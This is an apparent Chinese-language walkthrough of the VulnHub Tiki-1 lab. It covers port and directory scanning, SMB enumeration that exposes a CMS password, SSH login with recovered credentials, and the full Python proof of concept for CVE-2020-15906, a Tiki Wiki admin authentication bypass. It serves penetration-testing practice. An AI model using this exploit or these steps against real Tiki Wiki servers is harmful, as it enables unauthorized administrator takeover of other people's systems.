







# Tiki-1

> https://download.vulnhub.com/tiki/Tiki.ova

靶场IP：`192.168.32.219`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p 1-65535 -sV  192.168.32.219                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-10 08:28 EDT
Nmap scan report for 192.168.32.219
Host is up (0.00083s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 00:0C:29:26:C8:DB (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.99 seconds

```

访问80端口



爆破目录

```
┌──(root💀kali)-[~]
└─# gobuster dir -w /usr/share/wordlists/dirb/common.txt -x .txt -u http://192.168.32.219 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.219
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2022/09/10 08:36:24 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.hta.txt             (Status: 403) [Size: 279]
/.htaccess.txt        (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htpasswd.txt        (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 10918]
/robots.txt           (Status: 200) [Size: 42]   
/robots.txt           (Status: 200) [Size: 42]   
/server-status        (Status: 403) [Size: 279]  
/tiki                 (Status: 301) [Size: 315] [--> http://192.168.32.219/tiki/]
                                                                                 
===============================================================
2022/09/10 08:36:26 Finished
===============================================================

```

访问：`http://192.168.32.219/tiki/tiki-index.php`



查看共享目录

```
┌──(root💀kali)-[~]
└─# smbclient -L //192.168.32.219              
Password for [WODGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        Notes           Disk      My Notes
        IPC$            IPC       IPC Service (ubuntu server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

```

下载：`Mail.txt`

```
┌──(root💀kali)-[~]
└─# smbclient //192.168.32.219/Notes                                                                                                                                                                                                   
Password for [WODGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 29 09:52:09 2020
  ..                                  D        0  Thu Jul 30 15:32:11 2020
  Mail.txt                            N      244  Wed Jul 29 09:52:05 2020

                19992176 blocks of size 1024. 9775788 blocks available
smb: \> get Mail.txt
getting file \Mail.txt of size 244 as Mail.txt (15.9 KiloBytes/sec) (average 15.9 KiloBytes/sec)

```

```
┌──(root💀kali)-[~]
└─# cat Mail.txt                                                                                                                                                                                                                         1 ⨯
Hi Silky
because of a current Breach we had to change all Passwords,
please note that it was a 0day, we don't know how he made it.

Your new CMS-password is now 51lky571k1, 
please investigate how he made it into our Admin Panel.

Cheers Boss.

```

使用`Silky/51lky571k1`登录blog



找到版本2，有个CVE漏洞



CVE：`https://github.com/S1lkys/CVE-2020-15906`

Tiki Wiki CMS 中存在管理员身份验证绕过漏洞。POC 视频可以在上面的同一 GitHub 页面上找到。我按照这些步骤操作，并且能够获得对 CMS 服务器的管理员访问权限。

```
# Exploit Title: Tiki Wiki CMS Groupware 21.1 - Authentication Bypass
# Date: 01.08.2020 (1st August 2020)
# Exploit Author: Maximilian Barz aka. Silky
# Vendor Homepage: tiki.org
# Software Link: https://jztkft.dl.sourceforge.net/project/tikiwiki/Tiki_21.x_UY_Scuti/21.1/tiki-21.1.zip
# Version: 21.1
# Tested on: Kali Linux 5.7.0-kali1-amd64

#!/usr/bin/env/python3
import requests
import json
import lxml.html
import sys

banner = ''' 

████████ ██ ██   ██ ██ ██     ██ ██ ██   ██ ██     ██████   ██    ██                                                                                                    
   ██    ██ ██  ██  ██ ██     ██ ██ ██  ██  ██          ██ ███   ███                                                                                                    
   ██    ██ █████   ██ ██  █  ██ ██ █████   ██      █████   ██    ██                                                                                                    
   ██    ██ ██  ██  ██ ██ ███ ██ ██ ██  ██  ██     ██       ██    ██                                                                                                    
   ██    ██ ██   ██ ██  ███ ███  ██ ██   ██ ██     ███████  ██ ██ ██                                                                                                    
                                                                                                                                                                        
                                                                                                                                                                        
 █████  ██    ██ ████████ ██   ██ ███████ ███    ██ ████████ ██  ██████  █████  ████████ ██  ██████  ███    ██         ██████  ██    ██ ██████   █████  ███████ ███████ 
██   ██ ██    ██    ██    ██   ██ ██      ████   ██    ██    ██ ██      ██   ██    ██    ██ ██    ██ ████   ██         ██   ██  ██  ██  ██   ██ ██   ██ ██      ██      
███████ ██    ██    ██    ███████ █████   ██ ██  ██    ██    ██ ██      ███████    ██    ██ ██    ██ ██ ██  ██         ██████    ████   ██████  ███████ ███████ ███████ 
██   ██ ██    ██    ██    ██   ██ ██      ██  ██ ██    ██    ██ ██      ██   ██    ██    ██ ██    ██ ██  ██ ██         ██   ██    ██    ██      ██   ██      ██      ██ 
██   ██  ██████     ██    ██   ██ ███████ ██   ████    ██    ██  ██████ ██   ██    ██    ██  ██████  ██   ████         ██████     ██    ██      ██   ██ ███████ ███████ 
                                                                                                                                                                        
Poof of Concept for CVE-2020-15906 by Maximilian Barz, Twitter: S1lky_1337
'''


def main():
    if(len(sys.argv) < 2):
        print(banner)
        print("Usage: %s <host> " % sys.argv[0])
        print("Eg:    %s 1.2.3.4 " % sys.argv[0])
        return


    rhost = sys.argv[1]
    url = "http://"+rhost+"/tiki/tiki-login.php"

    session = requests.Session()

    def get_ticket():
        r = requests.get(url)
        login_page = r.text.encode('utf-8') 
        html = lxml.html.fromstring(login_page) 
        auth = html.xpath('//input[@name="ticket"]/@value')

        return str(auth)[2:-2]

    def get_cookie():
        session.get(url)
        return session.cookies.get_dict()


    cookie = get_cookie()
    ticket = get_ticket()
    
    payload = {'ticket': ticket,'user':'admin', 'pass':'test','login':'','stay_in_ssl_mode_present':'y','stay_in_ssl_mode':'n'}
    headers = {
        'Host': rhost,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzrhost, deflate',
        'Referer': 'http://'+rhost+'/tiki/tiki-login.php',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': '125',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Cache-Control': 'max-age=0',
    }


    for i in range(60):
        r = session.post(url, payload, headers)
        if("Account requires administrator approval." in r.text):
            print("Admin Password got removed.")
            print("Use BurpSuite to login into admin without a password ")


if(__name__ == '__main__'):
    main()

```



> 该漏洞是攻击者能够暴力破解 Tiki Wiki 管理员帐户，直到它在 50 次无效登录尝试后被锁定。然后，他们可以使用空密码来验证管理员身份并获得完整的帐户访问权限。
>
> 该网页不允许您将密码字段留空，但 Burpsuite 很好，所以这就是它的来源。然后您可以在浏览器中显示响应，我们以管理员身份登录。



找到一个凭据：`silky:Agy8Y7SPJNXQzqA`



ssh登录

```
┌──(root💀kali)-[/tmp]
└─# ssh silky@192.168.32.219        
The authenticity of host '192.168.32.219 (192.168.32.219)' can't be established.
ECDSA key fingerprint is SHA256:ApBZdsEv9OD5yRa5A+VVFRKVtbxaYr9uOaoHXDfOOtQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.32.219' (ECDSA) to the list of known hosts.
silky@192.168.32.219's password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-42-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


1 Aktualisierung kann sofort installiert werden.
0 dieser Aktualisierung sind Sicherheitsaktualisierungen.
Um zu sehen, wie diese zusätzlichen Updates ausgeführt werden: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Fri Jul 31 09:50:24 2020 from 192.168.56.1
silky@ubuntu:~$ id
uid=1000(silky) gid=1000(silky) Gruppen=1000(silky),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare)

```

提权成功。


